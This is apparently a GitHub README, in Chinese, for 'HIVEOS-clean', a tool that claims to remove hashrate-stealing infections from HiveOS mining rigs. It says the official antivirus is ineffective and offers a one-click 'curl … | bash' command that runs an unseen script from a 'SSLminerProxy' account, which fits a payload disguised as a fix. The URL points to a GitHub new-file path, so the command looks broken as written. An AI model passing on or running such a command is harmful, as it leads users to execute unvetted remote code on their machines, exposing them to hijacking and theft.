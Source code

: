 # HIVEOS-clean
HIVEOS强力杀毒，应对偷算力，官方杀毒无效，请使用这个

```bash 
一键杀毒命令，运行后矿机会自动杀毒重启
curl -s https://github.com/SSLminerProxy/HIVEOS-clean/new/main/clean.sh | bash
